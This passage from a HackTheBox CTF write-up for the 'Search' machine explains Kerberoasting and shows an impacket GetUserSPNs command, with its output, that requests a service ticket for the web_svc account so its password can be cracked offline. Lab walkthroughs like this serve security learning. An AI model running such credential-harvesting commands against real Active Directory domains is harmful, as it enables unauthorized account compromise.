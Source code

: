 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Search/images/Pasted%20image%2020230727161420.png)

> The goal of **Kerberoasting** is to harvest **TGS tickets for services that run on behalf of user accounts** in the AD, not computer accounts. Thus, **part** of these TGS **tickets are encrypted** with **keys** derived from user passwords. As a consequence, their credentials could be **cracked offline**. You can know that a **user account** is being used as a **service** because the property **"ServicePrincipalName"** is **not null**.
>  
> Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required. (From [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast))

That being said, domain user `hope.sharp` can request a Kerberos ticket for an SPN (Service Principal Name), which is the `web_svc` **service**. (`web_svc` **user account** is being used as a **service**.)

**To request a Kerberos ticket for `web_svc` service, we can use [impacket](https://github.com/fortra/impacket)'s `GetUserSPNs.py`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:18:24(HKT)]
└> impacket-GetUserSPNs -request -dc-ip $RHOSTS search.htb/hope.sharp -outputfile web_svc.kerberoast
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 20:59:11.329031  <never>               
```